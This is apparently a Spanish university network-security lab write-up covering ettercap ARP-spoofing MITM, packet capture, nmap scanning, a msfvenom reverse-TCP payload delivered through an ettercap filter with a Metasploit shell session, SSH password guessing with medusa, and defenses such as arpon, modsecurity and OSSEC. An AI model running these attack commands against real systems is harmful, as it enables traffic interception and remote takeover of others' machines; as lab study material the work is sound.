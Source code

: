 # PRACTICA 2 LSI

<details>
  <summary>a) Instale el ettercap y pruebe sus opciones básicas en línea de comando.</summary>

  ```console
  root@debian:/home/lsi# apt install ettercap-text-only
  ```
</details>
<details>
  <summary>b) Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Sobre esta paquetería (puede utilizar el wireshark para los siguientes subapartados)</summary>

  Previo a los apartados debemos hacer un MITM a la máquina de nuestro compañero :
  ```console
root@debian:/home/lsi# ettercap -T -q -i ens33 -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help
  ```
Luego en otra terminal hacemos un tcpdump para guardar el trafico
```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w compa.pcap
tcpdump: listening on ens33, link-type EN10MB (Ethernet), snapshot length 65535 bytes
916 packets captured
919 packets received by filter
0 packets dropped by kernel
```
Este archivo me lo paso a mi máquina real y lo leo desde Wireshark.

  -  Identifique los campos de cabecera de un paquete TCP
```console
     Frame 6: 66 bytes on wire (528 bits), 66 bytes captured (528 bits)
Ethernet II, Src: Alcatel-_10:84:b9 (dc:08:56:10:84:b9), Dst: VMware_97:15:21 (00:50:56:97:15:21)
Internet Protocol Version 4, Src: 10.20.38.93, Dst: 10.11.48.71
Transmission Control Protocol, Src Port: 56904, Dst Port: 22, Seq: 1, Ack: 45, Len: 0
    Source Port: 56904
    Destination Port: 22
    [Stream index: 0]
    [Conversation completeness: Incomplete (12)]
    [TCP Segment Len: 0]
    Sequence Number: 1    (relative sequence number)
    Sequence Number (raw): 2990874455
    [Next Sequence Number: 1    (relative sequence number)]
    Acknowledgment Number: 45    (relative ack number)
    Acknowledgment number (raw): 1338463224
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x010 (ACK)
    Window: 501
    [Calculated window size: 501]
    [Window size scaling factor: -1 (unknown)]
    Checksum: 0x6622 [unverified]
    [Checksum Status: Unverified]
    Urgent Pointer: 0
    Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
    [Timestamps]
    [SEQ/ACK analysis]
```
     
  -  Filtre la captura para obtener el tráfico HTTP
  -  Obtenga los distintos “objetos” del tráfico HTTP (imágenes, pdfs, etc.)
  -  Visualice la paquetería TCP de una determinada sesión.

      Analyze > Follow > TCP Stream
  
  -  Sobre el total de la paquetería obtenga estadísticas del tráfico por protocolo como fuente de información para un análisis básico del tráfico.

     Statistics > Protocol Hierarchy
  
  -  Obtenga información del tráfico de las distintas “conversaciones” mantenidas.

     Statistics > Conversations
  
  -  Obtenga direcciones finales del tráfico de los distintos protocolos como mecanismo para determinar qué circula por nuestras redes.

     Statistics > Endpoints

</details>
<details>
	<summary>c) Obtenga la relación de las direcciones MAC de los equipos de su segmento.</summary>

```console
 root@debian:/home/lsi# nmap -sP 10.11.48.0/23 >> nmap.txt
```
En el archivo .txt podemos ver las direcciones MAC.

</details>

<details>
	<summary>d) Obtenga la relación de las direcciones IPv6 de su segmento.</summary>

 ```console
root@debian:/home/lsi#  ping6 -c2 -I ens33 ff02::1 >> ipv6.txt
root@debian:/home/lsi# ip -6 neigh >> neighbours.txt
 ```
</details>
<details>
	<summary>e)Obtenga el tráfico de entrada y salida legítimo de su interface de red ens33 e investigue los servicios, conexiones y protocolos involucrados.</summary>

```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w my.pcap
```
</details>
<details>
	<summary>f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.</summary>

- Utilizamos el archivo compa.pcap obtenido de la máquina de nuestro compañero. Statistics > HTTP > Requests:

</details>
<details>
	<summary>g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.</summary>

1. Instalar metasploit
```console
  root@debian:/home/lsi# curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
2. Creamos el playload:
```console
root@debian:/home/lsi# msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.11.48.71 LPORT=4444 -f elf > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```
3. Lo metemos en la victima :
```console
root@debian:/home/lsi# nano ett.filter
root@debian:/home/lsi# etterfilter ett.filter -o ig.ef

etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team


 14 protocol tables loaded:
	DECODED DATA udp tcp esp gre icmp ipv6 ip arp wifi fddi tr eth 

 13 constants loaded:
	VRRP OSPF GRE UDP TCP ESP ICMP6 ICMP PPTP PPPOE IP6 IP ARP 

 Parsing source file 'ett.filter'  done.

 Unfolding the meta-tree  done.

 Converting labels to real offsets  done.

 Writing output to 'ig.ef'  done.

 -> Script encoded into 6 instructions.


root@debian:/home/lsi# echo 1 > /proc/sys/net/ipv4/ip_forward

root@debian:/home/lsi# ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Content filters loaded from ig.ef...
Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

```
4. Reverse shell en el atacante :
```console
root@debian:/home/lsi# msfconsole
Metasploit tip: View all productivity tips with the tips command
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.3.42-dev-                         ]
+ -- --=[ 2374 exploits - 1230 auxiliary - 414 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.48.71
LHOST => 10.11.48.71
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.48.71:4444 
[*] Sending stage (36 bytes) to 10.11.48.183
ls
[*] Command shell session 1 opened (10.11.48.71:4444 -> 10.11.48.183:44364) at 2023-11-07 16:05:31 +0100

Descargas
Documentos
Escritorio
Imágenes
Música
Plantillas
Público
Vídeos
coreruleset-3.3.0
dict.txt
etter.filter
logsInicio
logssh
ossec-hids-3.7.0
ossec-hids-3.7.0.zip
payload.bin
echo h4ck3d > h4ck3d.txt
cat h4ck3d.txt
h4ck3d
exit
[*] 10.11.48.183 - Command shell session 1 closed.
msf6 exploit(multi/handler) > 

```
	
</details>
<details>
	<summary>h) Haga un MITM en IPv6 y visualice la paquetería.</summary>
</details>




<details>
	<summary>i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).</summary>

1. Vaciamos arp : 
```console
root@debian:/home/lsi# ip -s -s neigh flush all
10.11.49.104 dev ens33 lladdr 00:50:56:97:10:6b  used 486/546/486probes 0 STALE 
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 3/0/3probes 1 REACHABLE 
10.11.48.183 dev ens33 lladdr 00:50:56:97:eb:ac  ref 1 used 17/17/17probes 1 REACHABLE 

*** Round 1, deleting 3 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 2, deleting 1 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 3, deleting 1 entries ***
10.11.48.1 dev ens33  ref 1 used 0/60/0probes 4 INCOMPLETE 

*** Round 4, deleting 1 entries ***
*** Flush is complete after 4 rounds ***

```
2. Usamos arpon para detectar :
```console
root@debian:/home/lsi# cat /etc/arpon.conf
#
# ArpON configuration file.
#
# See the arpon(8) man page for details.
#

#
# Static entries matching the eth0 network interface:
#
# First static entry:
#192.168.1.1     58:ac:78:10:b9:77
# Second static entry:
#192.168.1.3     d4:be:d9:fe:8b:45
# Third static entry:
#192.168.1.4     90:94:e4:bb:1c:10

#
# Static entries matching the eth1 network interface:
#
# First static entry:
#10.0.1.1        58:ac:78:88:1a:bb
# Second static entry:
#10.0.10.1       90:94:e4:7e:f4:59
root@debian:/home/lsi# arpon -d -i ens33 -H
root@debian:/home/lsi# Nov 07 16:18:49 [INFO] Background process is running (2491).
^C
root@debian:/home/lsi# ps -A | grep arpon
   2491 ?        00:00:00 arpon
root@debian:/home/lsi# kill 2491

```
</details>
<details>
	<summary>j) Pruebe distintas técnicas de host discovey, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?.</summary>

1. Escaneamos en IPv4
```console
root@debian:/home/lsi# nmap -A 10.11.48.1/24 > nmap_full.txt
```
2. Escaneapos IPv6
```console
root@debian:/home/lsi# nmap -A -6 fe80::250:56ff:fe97:d0a2 > nmap_6.txt
```
</details>
<details>
	<summary>k) Obtenga información “en tiempo real” sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.</summary>

```console
root@debian:/home/lsi# iftop -i ens33
```
```console
root@debian:/home/lsi# vnstat -l -i ens33
```
</details>

<details>
	<summary>l) Monitorizamos nuestra infraestructura.:</summary>

- Instale prometheus y node_exporter y configúrelos para recopilar todo tipo de métricas de su máquina linux.

  
- Posteriormente instale grafana y agregue como fuente de datos las métricas de su equipo de prometheus.

  
- Importe vía grafana el dashboard 1860.

  
- En los ataques de los apartados m y n busque posibles alteraciones en las métricas visualizadas.

  
</details>

<details>
	<summary>m) PARA PLANTEAR DE FORMA TEÓRICA.: ¿Cómo podría hacer un DoS de tipo direc attack contra un equipo de la red de prácticas? ¿Y mediante un DoS de tipo reflective flooding attack?.</summary>

 
</details>

<details>
	<summary>n) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?</summary>

```console
root@debian:/home/lsi# apt install apache2
```
- ¿Cómo podría proteger dicho servicio ante este tipo de ataque?
  Con un firewall de app web como modsecurity.
- Y si se produjese desde fuera de su segmento de red?
- ¿Cómo podría tratar de saltarse dicha protección?
</details>

<details>
	<summary>o) Instale y configure modsecurity. Vuelva a proceder con el ataque del apartado anterior. ¿Qué acontece ahora?</summary>

```console
root@debian:/home/lsi# apt install libapache2-mod-security2
```

```console
root@debian:/home/lsi# a2enmod headers
Enabling module headers.
To activate the new configuration, you need to run:
  systemctl restart apache2
```
```console
root@debian:/home/lsi# cp /etc/modsecurity/modsecurity.conf-recommended modsecurity.conf
root@debian:/home/lsi# nano modsecurity.conf
 ###Change SecRuleEngine from DetectionOnly to On
root@debian:/home/lsi# cp modsecurity.conf /etc/modsecurity/modsecurity.conf
```

```console
root@debian:/home/lsi# apt install libapache2-mod-evasive
root@debian:/home/lsi# a2enmod evasive
root@debian:/home/lsi# cat /etc/apache2/mods-enabled/evasive.conf 
<IfModule mod_evasive20.c>
    #DOSHashTableSize    3097
    #DOSPageCount        2
    #DOSSiteCount        50
    #DOSPageInterval     1
    #DOSSiteInterval     1
    #DOSBlockingPeriod   10

    #DOSEmailNotify      you@yourdomain.com
    #DOSSystemCommand    "su - someuser -c '/sbin/... %s ...'"
    #DOSLogDir           "/var/log/mod_evasive"
</IfModule>

```
 
</details>
<details>
	<summary> p) Buscamos información.: </summary>

- Obtenga de forma pasiva el direccionamiento público IPv4 e IPv6 asignado a la Universidade da Coruña

- Obtenga información sobre el direccionamiento de los servidores DNS y MX de la Universidade da Coruña.

- ¿Puede hacer una transferencia de zona sobre los servidores DNS de la UDC?.

- En caso negativo, obtenga todos los nombres.dominio posibles de la UDC.

- ¿Qué gestor de contenidos se utiliza en www.usc.es?

</details>
<details>
	<summary> q) Trate de sacar un perfil de los principales sistemas que conviven en su red de prácticas, puertos accesibles, fingerprinting, etc.</summary>
 
```console
root@debian:/home/lsi# nmap -A 10.11.48.0/23 > nmap_full.txt
```
</details>
<details>
	<summary> r) Realice algún ataque de “password guessing” contra su servidor ssh y compruebe que el analizador de logs reporta las correspondientes alarmas.</summary>

```console
root@debian:/home/lsi# medusa -h 10.11.48.183 -u lsi -P pwd.text -M ssh
```

</details>

<details>
	<summary>s) Reportar alarmas está muy bien, pero no estaría mejor un sistema activo, en lugar de uno pasivo. Configure algún sistema activo, por ejemplo OSSEC, y pruebe su funcionamiento ante un “password guessing”.</summary>

```console
root@debian: /home/lsi# git clone https://github.com/ossec/ossec-hids.git
root@debian:/home/lsi/ossec-hids# ./install.sh
root@debian:/home/lsi/ossec-hids# /var/ossec/bin/ossec-control start
```

 
</details>
<details>
	<summary>t) Supongamos que una máquina ha sido comprometida y disponemos de un fichero con sus mensajes de log. Procese dicho fichero con OSSEC para tratar de localizar evidencias de lo acontecido (“post mortem”). Muestre las alertas detectadas con su grado de criticidad, así como un resumen de las mismas.</summary>

```console
root@debian:/home/lsi#  cat /var/log/auth.log | /var/ossec/bin/ossec-logtest -a
2023/11/09 17:06:05 ossec-testrule: INFO: Reading local decoder file.
2023/11/09 17:06:06 ossec-testrule: INFO: Started (pid: 1381).
** Alert 1699545966.1: mail  - syslog,fts,authentication_success
2023 Nov 09 17:06:06 debian->stdin
Rule: 10100 (level 4) -> 'First time user logged in.'
Src IP: 10.20.37.166
User: lsi
2023-11-09T17:01:52+01:00 debian sshd[504536]: Accepted password for lsi from 10.20.37.166 port 45824 ssh2

** Alert 1699545966.2: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:01:52+01:00 debian sshd[504536]: pam_unix(sshd:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.3: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:11.072216+01:00 debian sshd[2722]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.4: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:13.179170+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.5: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:14.754833+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.6: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:17.669016+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.7: mail  - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5758 (level 8) -> 'Maximum authentication attempts exceeded.'
Src IP: 10.11.48.183
Src Port: 60390
User: lsi
2023-11-09T17:02:17.984079+01:00 debian sshd[2722]: error: maximum authentication attempts exceeded for lsi from 10.11.48.183 port 60390 ssh2 [preauth]

** Alert 1699545966.8: - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2501 (level 5) -> 'User authentication failure.'
2023-11-09T17:02:17.984416+01:00 debian sshd[2722]: Disconnecting authenticating user lsi 10.11.48.183 port 60390: Too many authentication failures [preauth]

** Alert 1699545966.9: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:17.984636+01:00 debian sshd[2722]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.10: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:18.075385+01:00 debian sshd[2724]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.11: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:02:20+01:00 debian su[504566]: pam_unix(su:session): session opened for user root(uid=0) by lsi(uid=1000)

** Alert 1699545966.12: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:20.473583+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.13: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:24.298381+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.14: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:27.213097+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.15: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:27.282521+01:00 debian sshd[2724]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.16: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:44+01:00 debian sshd[504569]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.17: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:46+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.18: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:48+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.19: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.20: mail  - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5758 (level 8) -> 'Maximum authentication attempts exceeded.'
Src IP: 10.11.48.71
Src Port: 51340
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: error: maximum authentication attempts exceeded for lsi from 10.11.48.71 port 51340 ssh2 [preauth]

** Alert 1699545966.21: - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2501 (level 5) -> 'User authentication failure.'
2023-11-09T17:02:51+01:00 debian sshd[504569]: Disconnecting authenticating user lsi 10.11.48.71 port 51340: Too many authentication failures [preauth]

** Alert 1699545966.22: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.23: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:52+01:00 debian sshd[504582]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.24: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:54+01:00 debian sshd[504582]: Failed password for lsi from 10.11.48.71 port 40562 ssh2

** Alert 1699545966.25: - pam,syslog,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5502 (level 3) -> 'Login session closed.'
2023-11-09T17:03:19.932470+01:00 debian sshd[1173]: pam_unix(sshd:session): session closed for user lsi

** Alert 1699545966.26: - pam,syslog,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5502 (level 3) -> 'Login session closed.'
2023-11-09T17:03:19.938755+01:00 debian su[2520]: pam_unix(su:session): session closed for user root

** Alert 1699545966.27: mail  - syslog,errors,
2023 Nov 09 17:06:06 debian->stdin
Rule: 1002 (level 2) -> 'Unknown problem somewhere in the system.'
2023-11-09T17:03:19.973671+01:00 debian sshd[1173]: pam_systemd(sshd:session): Failed to release session: Interrupted system call

** Alert 1699545966.28: - syslog,sshd,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5715 (level 3) -> 'SSHD authentication success.'
Src IP: 10.20.36.34
User: lsi
2023-11-09T17:04:04.231046+01:00 debian sshd[1217]: Accepted password for lsi from 10.20.36.34 port 39014 ssh2

** Alert 1699545966.29: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:04.231988+01:00 debian sshd[1217]: pam_unix(sshd:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.30: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:04.393876+01:00 debian (systemd): pam_unix(systemd-user:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.31: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:22.120251+01:00 debian su[1375]: pam_unix(su:session): session opened for user root(uid=0) by lsi(uid=1000)

root@debian:/home/lsi# cat /var/log/auth.log | /var/ossec/bin/ossec-logtest -a |/var/ossec/bin/ossec-reportd
2023/11/09 17:07:01 ossec-reportd: INFO: Started (pid: 1385).
2023/11/09 17:07:01 ossec-testrule: INFO: Reading local decoder file.
2023/11/09 17:07:01 ossec-testrule: INFO: Started (pid: 1384).
2023/11/09 17:07:06 ossec-reportd: INFO: Report completed. Creating output...
 
Report completed. ==
------------------------------------------------
->Processed alerts: 31
->Post-filtering alerts: 31
->First alert: 2023 Nov 09 17:07:01
->Last alert: 2023 Nov 09 17:07:01
 
 
Top entries for 'Source ip':
------------------------------------------------
10.11.48.183                                                                  |11      |
10.11.48.71                                                                   |8       |
10.20.36.34                                                                   |1       |
10.20.37.166                                                                  |1       |
 
 
Top entries for 'Username':
------------------------------------------------
lsi                                                                           |21      |
 
 
Top entries for 'Level':
------------------------------------------------
Severity 5                                                                    |16      |
Severity 3                                                                    |8       |
Severity 10                                                                   |3       |
Severity 8                                                                    |2       |
Severity 2                                                                    |1       |
Severity 4                                                                    |1       |
 
 
Top entries for 'Group':
------------------------------------------------
syslog                                                                        |31      |
authentication_failed                                                         |21      |
sshd                                                                          |13      |
pam                                                                           |11      |
authentication_success                                                        |7       |
access_control                                                                |5       |
errors                                                                        |1       |
fts                                                                           |1       |
 
 
Top entries for 'Location':
------------------------------------------------
debian->stdin                                                                 |31      |
 
 
Top entries for 'Rule':
------------------------------------------------
5716 - SSHD authentication failed.                                            |10      |
5501 - Login session opened.                                                  |5       |
5503 - User login failed.                                                     |4       |
2502 - User missed the password more than one time                            |3       |
2501 - User authentication failure.                                           |2       |
5502 - Login session closed.                                                  |2       |
5758 - Maximum authentication attempts exceeded.                              |2       |
1002 - Unknown problem somewhere in the system.                               |1       |
10100 - First time user logged in.                                            |1       |
5715 - SSHD authentication success.                                           |1       |
 

```

</details>

Defensa : 
- Tirar abajo servidor web del compañero.
-  Levantar cosas para protegernos de sus ataques
-  slowlories
-  slowget
-  Visualizar las URL del compañero
-  fichero pcap : uno propio y uno del compañero.
-  Metasploit
-  ett.filter
-  Information gethering : direccionamiento, transferencia de zona.
-  Prometeus.  grafana : Dashboard.
-  OSSEC. (Bajar timeouts a 120s)
-  arpon
